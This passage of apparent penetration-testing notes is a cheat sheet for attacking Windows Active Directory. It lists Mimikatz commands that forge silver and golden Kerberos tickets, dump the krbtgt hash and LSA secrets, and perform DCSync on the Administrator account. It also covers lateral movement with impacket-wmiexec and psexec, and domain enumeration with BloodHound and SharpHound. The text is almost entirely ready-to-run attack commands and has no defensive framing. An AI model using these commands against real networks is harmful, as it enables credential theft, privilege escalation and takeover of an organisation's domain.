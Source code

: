 **Pass-the-ticket (silver ticket)**

Get the SID of the user
> whoami /user

In Mimikatz
> kerberos::purge
> kerberos::golden /user:\<username> /domain:\<domain-name> /sid:\<sid> /target:\<url> /service:\<service> /rc4:\<rc4hash> /ptt

If you have a silver ticket, connect using Impacket
> export KRBSCCNAME=\<path-to-silver-ticket>
> 
> impacket-wmiexec -k -no-pass \<username>@\<domain>

**Golden ticket**

If we get the krbtgt (password hash of domain user account), we can create our own golden tickets = custom TGTs)

Get the krbtgt
> privilege::debug
> 
> lsadump::lsa /patch 

> kerberos::purge

Create a golden ticket
> kerberos::golden /user:\<fake-username> /domain:\<domain> /sid:\<sid> /krbtgt:\<krbtgt-hash> /ptt

Launch a new cmd
> misc::cmd

Use PsExec to escalate privileges
> psexec.exe \\\<dc-name> cmd.exe

**DC-SYNC**
> lsadump::dcsync /user:Administrator

<br>

### Bloodhound and Sharphound
Bloodhound needs an ingestor to retrieve files that then have to be uploaded in the application lying on your attack machine.

**Bloodhound-Python**
> bloodhound-python -c All -u \<user> -p \<password> -gc '\<hostname>.\<domain-name>' -dc '\<hostname>.\<domain-name>' -d '\<domain-name>' -ns \<dc-ip>

**Sharphound**

You can use Sharphound two ways.
1. Transfer the .exe file (which you can download from here: https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors) on the target machine and run it with the following command
   > SharpHound.exe -c All
2. Transfer the Sharphound.ps1 Powershell script on the target machine and run it
   > . .\SharpHound.ps1
   >
   > Invoke-Bloodhound -CollectionMethod All -Domain \<domain-name> -ZipFileName loot.zip
